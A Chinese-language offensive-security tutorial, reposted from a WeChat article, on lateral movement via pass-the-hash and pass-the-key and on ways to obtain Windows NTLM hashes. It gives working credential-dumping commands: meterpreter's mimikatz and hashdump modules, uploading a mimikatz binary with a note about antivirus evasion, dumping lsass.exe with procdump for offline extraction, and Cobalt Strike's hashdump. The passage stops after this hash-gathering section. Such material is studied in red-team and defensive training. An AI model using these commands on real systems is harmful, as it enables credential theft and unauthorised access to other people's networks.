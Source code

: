 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/uBlMxCUeBXpnFunW0ZZxXg)

文章来源：限制社区，作者：ConsT27

![](https://mmbiz.qpic.cn/mmbiz_jpg/zojWxwXWulOMmWE9wJPSXLcGeasZ8zJMPwmkZYfBdAr1VIvMNdjdyGBrVmopelPV7stC6BZ7twPpGkmbnfHSMA/640?wx_fmt=jpeg)

**横向移动**
========

**一、PTH**
---------

如果找到了某个用户的 ntlm hash，就可以拿这个 ntlm hash 当作凭证进行远程登陆了  
其中若 hash 加密方式是 rc4 ，那么就是 pass the hash  
若加密方式是 aes key, 那么就是 pass the key  
注意 NTLM 和 kerberos 协议均存在 PTH:  
NTLM 自然不用多说  
kerberos 协议也是基于用户的 client hash 开始一步步认证的，自然也会受 PTH 影响

那前提就是要获取 hash 值了

### **HASH 获取**

1. 使用 meterpreter 里的 mimikatz 模块

```
meterpreter>load mimikatzmeterpreter>mimikatz_command -f mimikatz的指令privilege::debug 提权 samdump::hashes dump哈希 或者meterpreter>msv/kerberos/widgst
```

2. 使用 meterpreter 自带的 hash 获取模块

```
meterpreter>hashdumpmeterpreter>run windows/gather/smart_hashdump (推荐使用这个)
```

3. 向目标机上传 mimikatz 远程调用 mimikatz.exe dump 出 hash，mimikatz 需要免杀处理  
意思就是既然我们获取到了 shell，我们直接向目标机上传一个 mimikatz 然后在 shell 里使用它就行了. 使用方法为 cmd 窗口打开 mimikatz.exe，进入 mimikatz 终端，然后输入 mimikatz 指令即可

4. 上传 procdump 到目标机，获取到 lsass.dmp 文件后将其传回本地又 mimikatz 来 dump 哈希

procdump.exe 是微软自带的程序，所以不会触发杀毒。所以可以通过它传回 lsass.dmp 本地提取 hash

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp  执行该指令，获取到lsass.dmp然后将其传回本地通过mimikatz.exe分别执行以下命令"sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"
```

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMRVDDTpkIlkCHNaXyQZicwxIEm5ictuTFEnp97r5Q7TTx8PAoIdS0cG9w/640?wx_fmt=png)

Procdump：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump  
mimikatz：https://github.com/gentilkiwi/mimikatz/releases

5. 使用 cobalt strike 获取 hash

```
beacon>hashdumpbeacon>mimikatz mimikatz指令
```
